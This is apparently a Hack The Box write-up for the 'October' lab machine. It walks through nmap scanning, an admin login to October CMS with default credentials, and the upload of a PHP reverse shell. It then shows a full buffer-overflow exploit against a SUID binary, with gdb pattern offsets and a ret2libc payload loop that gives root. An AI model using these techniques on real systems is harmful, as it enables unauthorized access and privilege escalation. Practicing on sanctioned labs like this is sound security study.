


---
search:
  exclude: true
---
# October Writeup

## Introduction :

October is a medium Linux box released back in April 2017.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nmap -F 10.10.10.16
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-22 11:46 GMT
      Nmap scan report for 10.10.10.16
      Host is up (0.13s latency).
      Not shown: 98 filtered ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 4.21 seconds
    
      λ nihilist [ 10.10.14.20/23 ] [~]
      → nmap -sCV -p80,22 10.10.10.16
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-22 11:46 GMT
      Nmap scan report for 10.10.10.16
      Host is up (0.098s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   1024 79:b1:35:b6:d1:25:12:a3:0c:b5:2e:36:9c:33:26:28 (DSA)
      |   2048 16:08:68:51:d1:7b:07:5a:34:66:0d:4c:d0:25:56:f5 (RSA)
      |   256 e3:97:a7:92:23:72:bf:1d:09:88:85:b6:6c:17:4e:85 (ECDSA)
      |_  256 89:85:90:98:20:bf:03:5d:35:7f:4a:a9:e1:1b:65:31 (ED25519)
      80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
      | http-methods:
      |_  Potentially risky methods: PUT PATCH DELETE
      |_http-server-header: Apache/2.4.7 (Ubuntu)
      |_http-title: October CMS - Vanilla
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 12.01 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running the October CMS on Apache, which is based on the [php laravel framework](https://octobercms.com/). let's check out the /backend default administrator login page with the default credentials admin:admin:

And we're in ! we have been able to login as the admin user. Now we move over to the media tab, for us to upload our reverse php shell , after renaming it to nihilist.php5
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
    → locate nihilist.php
    /home/nihilist/_HTB/Bastard/nihilist.php
    /home/nihilist/_HTB/Cronos/nihilist.php
    /home/nihilist/_HTB/Networked/nihilist.php.gif
    /home/nihilist/_HTB/Popcorn/nihilist.php
    /home/nihilist/_HTB/Popcorn/nihilist.php.gif
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
    → cp /home/nihilist/_HTB/Popcorn/nihilist.php .
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
    → ls
    nihilist.php
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
    → nano nihilist.php
    
    λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
    → mv nihilist.php nihilist.php5
    

` 

and we get a reverse shell ! let's see if we can print out the user flag : 
    
    
      www-data@october:/var/www/html/cms/storage/app/media$ cat /home/harry/user.txt
      cat /home/harry/user.txt
      29XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag :) 

## **Part 3 : Getting Root Access**

From here we need to privesc so our first reflex here is checking sudo -l after spawning a tty shell using python's pty library.
    
    
      www-data@october:/var/www/html/cms/storage/app/media$ sudo -l
    sudo -l
    sudo: no tty present and no askpass program specified
    www-data@october:/var/www/html/cms/storage/app/media$ python -c 'import pty;pty.spawn("/bin/sh")'
    python -c 'import pty;pty.spawn("/bin/sh")'
    $ sudo -l
    sudo -l
    [sudo] password for www-data:
    
    

Out of luck, we need a password to see it's output, so let's try something else :
    
    
      $ for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done
      for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done
      /bin/umount
      /bin/ping
      /bin/fusermount
      /bin/su
      /bin/ping6
      /bin/mount
      /sbin/unix_chkpwd
      /usr/bin/mail-unlock
      /usr/bin/sudo
      /usr/bin/ssh-agent
      /usr/bin/mail-touchlock
      /usr/bin/mlocate
      /usr/bin/screen
      /usr/bin/newgrp
      /usr/bin/pkexec
      /usr/bin/passwd
      /usr/bin/chfn
      /usr/bin/mail-lock
      /usr/bin/bsd-write
      /usr/bin/gpasswd
      /usr/bin/traceroute6.iputils
      /usr/bin/mtr
      /usr/bin/chsh
      /usr/bin/expiry
      /usr/bin/wall
      /usr/bin/crontab
      /usr/bin/at
      /usr/bin/dotlockfile
      /usr/bin/chage
      /usr/sbin/pppd
      /usr/sbin/uuidd
      /usr/local/bin/ovrflw
    

the file ovrflw is an executable who has the root SUID permission, let's copy it locally and see what we can do with it : 
    
    
      $ cat ovrflw | base64 -w0
      cat ovrflw | base64 -w0
      
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
      → echo 'f0VMRgEBAQ [...] VORF9fAF9JVE1fcmVnaXN0ZXJUTUNsb25lVGFibGUAX2luaXQA' | base64 -d >ovrflw
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
      → file ovrflw
      ovrflw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
      → strings ovrflw | grep strcpy
      strcpy
      strcpy@@GLIBC_2.0
    

the strcpy function there in the file indicates we can perform buffer overflows, so let's check if the binary has any security implemented using gdb :
    
    
      λ nihilist [ 10.10.14.20/23 ] [~/_HTB/October]
    → gdb ./ovrflw
    GNU gdb (Debian 8.3.1-1) 8.3.1
    
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./ovrflw...
    (No debugging symbols found in ./ovrflw)
    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial
    

NX (non executable) is enabled so we can't just put shellcode in, let's makeit run and see if we can get any specific memory addresses :
    
    
      gdb-peda$ b main
    Breakpoint 1 at 0x8048480
    

now that we know main is at memory address 0x8048480 , we create a pattern to find the offset : 
    
    
      gdb-peda$ pattern create 200
      'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
    
      gdb-peda$ pset arg 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
    

Now let's run the binary file passing the pattern as parameter : 
    
    
      gdb-peda$ r
      Starting program: /home/nihilist/_HTB/October/ovrflw 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
      [----------------------------------registers-----------------------------------]
      EAX: 0xf7faf548 --> 0xffffd1b0 --> 0xffffd444 ("SSH_AUTH_SOCK=/tmp/ssh-IfR9D4YJXt1D/agent.2412")
      EBX: 0x0
      ECX: 0xa1b0a267
      EDX: 0xffffd134 --> 0x0
      ESI: 0xf7fad000 --> 0x1d6d6c
      EDI: 0xf7fad000 --> 0x1d6d6c
      EBP: 0xffffd108 --> 0x0
      ESP: 0xffffd108 --> 0x0
      EIP: 0x8048480 (<****main+3>:	and    esp,0xfffffff0)
      EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
      [-------------------------------------code-------------------------------------]
         0x8048478 <****frame_dummy+40>:	jmp    0x80483f0 <****register_tm_clones>
         0x804847d <****main>:	push   ebp
         0x804847e <****main+1>:	mov    ebp,esp
      => 0x8048480 <****main+3>:	and    esp,0xfffffff0
         0x8048483 <****main+6>:	add    esp,0xffffff80
         0x8048486 <****main+9>:	cmp    DWORD PTR [ebp+0x8],0x1
         0x804848a <****main+13>:	jg     0x80484ad <****main+48>
         0x804848c <****main+15>:	mov    eax,DWORD PTR [ebp+0xc]
      [------------------------------------stack-------------------------------------]
      0000| 0xffffd108 --> 0x0
      0004| 0xffffd10c --> 0xf7df4811 ( <__libc_start_main+241>:	add    esp,0x10)
      0008| 0xffffd110 --> 0x2
      0012| 0xffffd114 --> 0xffffd1a4 --> 0xffffd35c ("/home/nihilist/_HTB/October/ovrflw")
      0016| 0xffffd118 --> 0xffffd1b0 --> 0xffffd444 ("SSH_AUTH_SOCK=/tmp/ssh-IfR9D4YJXt1D/agent.2412")
      0020| 0xffffd11c --> 0xffffd134 --> 0x0
      0024| 0xffffd120 --> 0x1
      0028| 0xffffd124 --> 0x0
      [------------------------------------------------------------------------------]
      Legend: code, data, rodata, value
    
      Breakpoint 1, 0x08048480 in main ()
    
    

and we continue the execution of the program, and we see that the pattern is recognised at the memory address 0x41384141, running the pattern_offset at this address, with our pattern length of 200, we see that the offset is 112
    
    
        gdb-peda$ c
    Continuing.
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x0
    EBX: 0x0
    ECX: 0xffffd440 --> 0x417941 ('AyA')
    EDX: 0xffffd161 --> 0x417941 ('AyA')
    ESI: 0xf7fad000 --> 0x1d6d6c
    EDI: 0xf7fad000 --> 0x1d6d6c
    EBP: 0x6941414d ('MAAi')
    ESP: 0xffffd110 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    EIP: 0x41384141 ('AA8A')
    EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41384141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd110 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0004| 0xffffd114 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0008| 0xffffd118 ("AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0012| 0xffffd11c ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0016| 0xffffd120 ("PAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0020| 0xffffd124 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0024| 0xffffd128 ("AmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    0028| 0xffffd12c ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41384141 in ?? ()
    gdb-peda$ pattern_offset 0x41384141 200
    1094205761 found at offset: 112
      

now that we have our offset, we start enumerating the memory addresses of the other functions within the binary, most notably the following : 
    
    
        System = 0xb75e5310
        Exit = 0xb75d8260
        /bin/sh = 0xb7707bac
        little endian format = “\x10\x53\x5e\xb7\x60\x82\x5d\xb7\xac\x7b\x70\xb7”
      

and then accordingly we use python to abuse this binary file and effectively reach our root privileges : 
    
    
        $ while true; do /usr/local/bin/ovrflw $(python -c 'print "A" * 112 + "\x10\x53\x5e\xb7\x60\x82\x5d\xb7\xac\x7b\x70\xb7"');done
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
        Segmentation fault (core dumped)
    
        # id
        id
        uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
        # cat /root/root.txt
        cat /root/root.txt
        6bXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
      

and that's it ! we have been able to print out the root flag. 

## **Conclusion**

Here we can see the progress graph :

